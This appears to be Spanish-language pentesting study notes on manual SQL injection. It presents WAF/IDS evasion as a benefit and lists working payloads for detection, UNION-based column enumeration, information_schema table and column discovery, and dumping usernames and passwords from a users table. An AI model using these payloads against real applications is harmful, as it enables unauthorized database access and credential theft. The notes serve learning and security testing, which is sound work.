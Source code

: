 # Manual SQL injection

## Ventajas de la inyección sql a mano
- Es más facil de bypasear los filtros de seguridad como WAF o IDS
- obtenemos más control sobre la inyección

[CheatSheets de inyecciones SQL manuales](https://pentestmonkey.net/category/cheat-sheet)

### Detección
- Primero verificamos si la aplicación es vulnerable a inyección sql con payloads como: `' or 1=1--`, o si no `-- +` o `#`
- Si la aplicación es vulnerable, podemos usar `UNION SELECT` para obtener información de otras tablas
- Si la aplicación no es vulnerable a `UNION SELECT`, podemos usar `ORDER BY` para obtener información de otras tablas
    - `ORDER BY` nos permite ordenar los resultados de una consulta SQL
- `10' union select 1,2,3,4,5,6 -- -`
    - Entonces tenemos la consulta:
        - **10**: es el id de la consulta legitima
        - **'**: es el delimitador de la consulta que hace que la consulta se rompa
        - **union select**: es la parte que nos permite unir dos consultas
        - **1,2,3,4,5,6**: son los valores que queremos obtener de la segunda consulta
- Partiendo de `10' union select 1, X,3,4,5,6 -- - ` podemos hacer otro tipo de consultas como que db usa, etc.
    - `10' union select 1, database(),3,4,5,6 -- -`
- Ahora por ejemplo si queremos saber que tablas hay en la base de datos podemos hacer:
    - `10' union select 1, table_name,3,4,5,6 from information_schema.tables where table_schema=database() -- -`
    - Para ver todas las columnas de una tabla:
        - `10' union select 1, column_name,3,4,5,6 from information_schema.columns where table_name='NOMBRE_TABLA' -- -`
    - Ahora para dumpear la información de la tabla podemos hacer:
        - `10' union select 1, column1, column2,4,5,6 from table_name -- -`
    - Ejemplo:
            - `10' union select 1, username, password,4,5,6 from users -- -`